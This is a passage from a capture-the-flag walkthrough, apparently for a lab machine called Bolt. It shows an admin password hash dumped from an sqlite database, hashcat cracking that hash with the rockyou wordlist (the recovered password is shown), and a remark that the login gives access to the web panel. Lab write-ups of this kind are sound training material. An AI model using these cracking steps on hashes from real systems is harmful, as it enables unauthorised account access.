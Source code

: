 ```
1|admin|admin@bolt.htb|$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.||
sqlite> 
```

- Let's try to crack
```
└─$ hashcat -m 500 hash /usr/share/wordlists/rockyou.txt  
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU
...
$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.:deadbolt               
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.
Time.Started.....: Mon Sep 25 17:25:28 2023 (12 secs)
Time.Estimated...: Mon Sep 25 17:25:40 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    13944 H/s (8.85ms) @ Accel:64 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 172800/14344385 (1.20%)
Rejected.........: 0/172800 (0.00%)
Restore.Point....: 172672/14344385 (1.20%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidate.Engine.: Device Generator
Candidates.#1....: derek25 -> danniela
Hardware.Mon.#1..: Util: 98%

Started: Mon Sep 25 17:25:27 2023
Stopped: Mon Sep 25 17:25:42 2023

```

- The creds only work for `http://bolt.htb/login`
  - But nothing interesting
